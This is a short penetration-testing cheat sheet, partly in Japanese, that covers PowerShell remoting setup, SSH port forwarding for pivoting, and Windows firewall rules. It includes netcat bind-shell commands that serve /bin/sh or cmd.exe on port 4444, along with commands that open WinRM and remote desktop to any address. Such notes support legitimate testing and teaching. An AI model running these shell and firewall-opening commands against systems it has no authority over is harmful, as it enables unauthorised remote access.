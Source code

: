 # penetration-wiki

## PS-Session

### Server Settings

- username = `easyduck`
- password = `verystrongpassword`
- hostname = `rhostname`
- ipaddress = `xxx.xxx.xxx.xxx`

```pwsh
Enable-PSRemoting
Set-NetFirewallRule -Name "WINRM-HTTP-In-TCP-PUBLIC" -RemoteAddress Any
net start WinRM
```

### Client

pattern 1

```pwsh
Enter-PSSession -ComputerName "xxx.xxx.xxx.xxx" -Credential "easyduck"
```

pattern 2

```pwsh
Enter-PSSession -ComputerName "hostname"-Credential "easyduck"
```

## Netcat

## Server Settings

- RPORT = `4444`
- RHOST = `xxx.xxx.xxx.xxx`

```bash
nc -lvp 4444 -e /bin/sh
nc -lvp 4444 -e cmd.exe
```

## Client

```bash
nc xxx.xxx.xxx.xxx 4444
```

## SSH Port Forwarding

### Local forward

remoteを経由してローカルにあるツールをtargetに対して使いたい場合

```
ssh -fNT -L xxx:target:zzz remote
```

### Remote forward

localを経由して外部にあるtargetにremoteからアクセスさせたい場合

```
ssh -fNT -R xxx:remote:zzz target
```

## Windows Firewall Settings

https://docs.microsoft.com/en-US/troubleshoot/windows-server/networking/netsh-advfirewall-firewall-control-firewall-behavior

```pwsh
Set-NetFirewallRule -Name "WINRM-HTTP-In-TCP-PUBLIC" -RemoteAddress Any
New-NetFirewallRule -Name <名前> -DisplayName <表示名> -Enabled true -Profile <有効にするプロファイル> -Action Allow -LocalAddress Any -RemoteAddress Any -Protocol TCP -LocalPort 10050 -RemotePort Any

netsh advfirewall firewall add rule name="My Application" dir=in action=allow program="C:\MyApp\MyApp.exe" enable=yes

netsh advfirewall firewall add rule name="My Application" dir=in action=allow program= "C:\MyApp\MyApp.exe" enable=yes remoteip=157.60.0.1,172.16.0.0/16,LocalSubnet profile=domain

netsh advfirewall firewall add rule name="My Application" dir=in action=allow program= "C:\MyApp\MyApp.exe" enable=yes remoteip=157.60.0.1,172.16.0.0/16,LocalSubnet profile=domain
netsh advfirewall firewall add rule name="My Application" dir=in action=allow program="C:\MyApp\MyApp.exe" enable=yes remoteip=157.60.0.1,172.16.0.0/16,LocalSubnet profile=private

netsh advfirewall firewall add rule name= "Open Port 80" dir=in action=allow protocol=TCP localport=80

netsh advfirewall firewall delete rule name= rule name program="C:\MyApp\MyApp.exe"

netsh advfirewall firewall delete rule name= rule name protocol=udp localport=500
  
netsh advfirewall reset
    
netsh advfirewall firewall set rule group="File and Printer Sharing" new enable=Yes
    
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
    	
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes profile=domain
  
netsh advfirewall firewall add rule name="ICMP Allow incoming V4 echo request" protocol=icmpv4:8,any dir=in action=allow
  
netsh advfirewall firewall add rule name= "All ICMP V4" protocol=icmpv4:any,any dir=in action=allow
  
netsh advfirewall firewall add rule name="Block Type 13 ICMP V4" protocol=icmpv4:13,any dir=in action=block

netsh advfirewall firewall set rule group="remote desktop" new enable=Yes profile=private
```
